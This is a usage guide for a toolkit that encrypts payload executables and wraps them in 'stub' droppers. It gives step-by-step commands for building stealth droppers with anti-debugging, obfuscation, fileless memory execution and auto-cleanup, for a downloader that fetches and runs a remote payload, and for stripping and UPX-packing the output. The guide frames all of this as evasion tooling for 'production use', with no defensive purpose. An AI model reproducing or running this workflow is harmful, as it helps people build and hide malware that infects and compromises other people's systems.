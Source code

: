 # Complete Usage Guide for Encryption Tools & Stub Generators

## Overview

This project contains multiple tools for encrypting payloads and generating stubs that can decrypt and execute them. Here's how to use each tool:

## 1. Basic Workflow

### Step 1: Compile the Tools

```bash
# Compile the main tools
g++ -O2 -o universal_encryptor universal_encryptor.cpp
g++ -O2 -o unified_stub_generator unified_stub_generator.cpp
g++ -O2 -o native_stub_generator native_stub_generator.cpp
g++ -O2 -o stub_linker stub_linker.cpp
g++ -O2 -o enhanced_stub_linker enhanced_stub_linker.cpp
```

### Step 2: Basic Encryption and Stub Generation

#### Method 1: Using Universal Encryptor + Stub Linker

```bash
# 1. Encrypt your payload
./universal_encryptor payload.exe encrypted.bin

# 2. Generate a standalone stub
./native_stub_generator --standalone stub.cpp basic

# 3. Link the encrypted payload with the stub
./stub_linker stub.cpp encrypted.bin final_dropper.cpp

# 4. Compile the final dropper
g++ -O2 -o final_dropper final_dropper.cpp
```

#### Method 2: Using Unified Stub Generator (All-in-One)

```bash
# Generate stub with embedded payload in one step
./unified_stub_generator payload.exe output_stub.cpp --config

# Follow the interactive prompts to configure:
# - Encryption type (AES/ChaCha20/XOR)
# - Anti-debugging features
# - Execution method
# - Output format
```

## 2. Advanced Features

### Stealth Stub Generation

```bash
# Generate ultimate stealth stub
./ultimate_stealth_generator payload.exe stealth_stub.cpp

# The stealth stub includes:
# - Obfuscated function names
# - Anti-debugging checks
# - Memory-only execution
# - Auto-cleanup
```

### URL-Based Payload (Download & Execute)

```bash
# Generate a stub that downloads payload from URL
./unified_stub_generator --url url_stub.cpp --config

# When prompted, enter:
# - URL: https://example.com/payload.exe
# - Configure other options as needed
```

### Fileless Execution

```bash
# Generate fileless stub (memory-only execution)
./unified_stub_generator payload.exe fileless_stub.cpp --config

# Select option 2 (Fileless mode) when prompted
```

## 3. Tool-Specific Usage

### Universal Encryptor

```bash
# Basic encryption
./universal_encryptor input.exe output.enc

# Encrypt with specific algorithm
./universal_encryptor -aes input.exe output.enc     # AES-128-CTR
./universal_encryptor -chacha input.exe output.enc  # ChaCha20
./universal_encryptor -xor input.exe output.enc     # XOR encryption

# Decrypt a file
./universal_encryptor -d encrypted.bin decrypted.exe
```

### Native Stub Generator

```bash
# Generate different stub types
./native_stub_generator payload.exe stub.cpp basic      # Basic stub
./native_stub_generator payload.exe stub.cpp advanced   # Anti-debug features
./native_stub_generator payload.exe stub.cpp stealth    # Maximum stealth

# Standalone stubs (no embedded payload)
./native_stub_generator --standalone stub.cpp basic
./native_stub_generator --standalone stub.cpp advanced
./native_stub_generator --standalone stub.cpp stealth
```

### Enhanced Stub Linker

```bash
# Link with automatic key extraction
./enhanced_stub_linker stub.cpp encrypted_payload.bin final.cpp

# Verify stub keys
./enhanced_stub_linker -verify stub.cpp
```

## 4. Compilation Options

### Windows
```bash
# MinGW
g++ -O2 -o stub.exe stub.cpp -lwininet -static

# Visual Studio Command Prompt
cl /O2 /MT stub.cpp wininet.lib
```

### Linux
```bash
# Standard compilation
g++ -O2 -o stub stub.cpp -pthread

# With all optimizations
g++ -O3 -s -o stub stub.cpp -pthread -fno-exceptions -fno-rtti
```

## 5. Examples

### Example 1: Basic Payload Encryption
```bash
# Encrypt calc.exe and create dropper
./universal_encryptor calc.exe calc_encrypted.bin
./native_stub_generator --standalone basic_stub.cpp basic
./stub_linker basic_stub.cpp calc_encrypted.bin calc_dropper.cpp
g++ -O2 -o calc_dropper calc_dropper.cpp
```

### Example 2: Stealth Dropper with Anti-Debug
```bash
# One-step generation with unified generator
./unified_stub_generator notepad.exe stealth_notepad.cpp --config
# Select: 1 (embedded), AES encryption, enable all anti-features
g++ -O2 -o stealth_notepad stealth_notepad.cpp
```

### Example 3: URL Downloader
```bash
# Create stub that downloads and executes from URL
./unified_stub_generator --url downloader.cpp --config
# Enter URL when prompted
g++ -O2 -o downloader downloader.cpp -lwininet  # Windows
g++ -O2 -o downloader downloader.cpp             # Linux
```

## 6. Output Files

Each tool generates different output:

- **universal_encryptor**: Creates `.enc` file + `.keys` file
- **native_stub_generator**: Creates `.cpp` source file
- **unified_stub_generator**: Creates complete `.cpp` stub
- **stub_linker**: Creates final `.cpp` with embedded payload

## 7. Tips & Best Practices

1. **Always test in isolated environment first**
2. **Use different encryption keys for each build**
3. **Enable anti-debugging for production use**
4. **Strip symbols from final binary**: `strip -s output`
5. **Use UPX for additional packing**: `upx --best output`

## 8. Troubleshooting

### "undefined reference" errors
- Add required libraries: `-lwininet` (Windows), `-pthread` (Linux)

### "file not found" errors
- Ensure all paths are correct
- Check file permissions

### Compilation warnings
- Use `-w` flag to suppress warnings
- Or fix individually based on compiler output

## 9. Quick Reference

```bash
# Encrypt
./universal_encryptor input output

# Generate stub
./native_stub_generator [--standalone] input output.cpp [type]

# Link
./stub_linker stub.cpp payload.enc final.cpp

# Compile
g++ -O2 -o final final.cpp [-lwininet] [-pthread]

# Execute
./final
```